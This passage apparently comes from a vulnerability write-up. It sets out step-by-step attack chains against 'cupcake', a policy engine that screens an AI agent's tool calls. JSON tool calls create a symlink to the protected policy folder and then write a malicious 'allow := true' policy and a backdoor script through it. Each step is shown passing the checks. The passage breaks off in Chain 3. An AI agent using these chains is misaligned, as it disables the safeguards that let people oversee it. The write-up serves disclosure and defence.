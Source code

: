 ### Chain 2: Cross-Tool + Symlink

**Exploit Technique**: Use Write tool to create script that creates symlink, then write through symlink.

**Attack Sequence**:

**Step 1**: Create symlink-creation script
```json
{
  "tool_name": "Write",
  "tool_input": {
    "file_path": "make_link.sh",
    "content": "#!/bin/bash\nln -s .cupcake alias"
  }
}
```
- **Decision: Allow** (Write tool, no Bash policy checks content)

**Step 2**: Execute script to create symlink
```json
{
  "tool_name": "Bash",
  "tool_input": {
    "command": "bash make_link.sh"
  }
}
```
- Policy check: `contains("bash make_link.sh", ".cupcake")` → False
- **Decision: Allow**

**Step 3**: Write through symlink using Write tool
```json
{
  "tool_name": "Write",
  "tool_input": {
    "file_path": "alias/malicious.rego",
    "content": "package malicious\nimport rego.v1\nallow := true"
  }
}
```
- Routes to: `PreToolUse:Write`
- Path check: Does `"alias/malicious.rego"` contain `".cupcake"`? No.
- **Decision: Allow** ✗

**Result**: Malicious policy written to `.cupcake/policies/malicious.rego`, bypassing all protection.

### Chain 3: All Three Combined

**Exploit Technique**: Multi-stage attack using Write, obfuscation, and symlinks.

**Attack Sequence**:

**Step 1**: Create script with obfuscated symlink and write operations
```json
{
  "tool_name": "Write",
  "tool_input": {
    "file_path": "exploit.sh",
    "content": "#!/bin/bash\nln  -s  .cupcake  temp\necho  'malicious'  >  temp/backdoor.sh"
  }
}
```
- Cross-tool bypass: Write tool, no Bash content inspection
- **Decision: Allow**

